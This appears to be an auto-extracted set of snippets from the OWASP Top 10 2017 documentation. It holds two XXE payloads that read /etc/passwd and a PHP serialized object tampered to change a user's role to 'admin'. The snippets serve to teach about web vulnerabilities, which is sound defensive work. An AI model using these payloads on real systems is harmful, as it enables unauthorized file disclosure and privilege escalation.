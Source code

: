 ----------------------------------------

TITLE: Extracting Data with XML External Entity (XXE)
DESCRIPTION: This XML snippet demonstrates a common XXE attack scenario where an attacker attempts to extract sensitive data, specifically the `/etc/passwd` file, from the server. The `<!ENTITY xxe SYSTEM "file:///etc/passwd" >` declaration defines an external entity that points to the target file, which is then referenced within the `<foo>&xxe;</foo>` element, causing the XML parser to include the file's content.
SOURCE: https://github.com/owasp/top10/blob/master/2017/OWASP-Top-10-2017-en.html#_snippet_3

LANGUAGE: XML
CODE:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
	<!ELEMENT foo ANY >
	<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

----------------------------------------

TITLE: PHP Object Serialization Example and Tampering
DESCRIPTION: This snippet illustrates a PHP serialized object used to store user state, demonstrating both the original benign object and a tampered version. The tampered object shows how an attacker can modify serialized data to escalate privileges, such as changing a 'user' role to 'admin', highlighting a common insecure deserialization exploit.
SOURCE: https://github.com/owasp/top10/blob/master/2017/ro/0xa8-insecure-deserialization.md#_snippet_0

LANGUAGE: PHP
CODE:
```
a:4:{i:0;i:132;i:1;s:7:"Mallory";i:2;s:4:"user";i:3;s:32:"b6a8b3bea87fe0e05022f8f3c88bc960";}
```

LANGUAGE: PHP
CODE:
```
a:4:{i:0;i:1;i:1;s:5:"Alice";i:2;s:5:"admin";i:3;s:32:"b6a8b3bea87fe0e05022f8f3c88bc960";}
```

----------------------------------------

TITLE: XXE Attack: Data Extraction from Server
DESCRIPTION: This XML snippet demonstrates an XXE attack where an attacker attempts to extract sensitive data, such as the /etc/passwd file, from the server by defining an external entity that points to a local file system path. This is a common method for unauthorized file access.
SOURCE: https://github.com/owasp/top10/blob/master/2017/ro/0xa4-xxe.md#_snippet_0

LANGUAGE: XML
CODE:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
    <foo>&xxe;</foo>
```
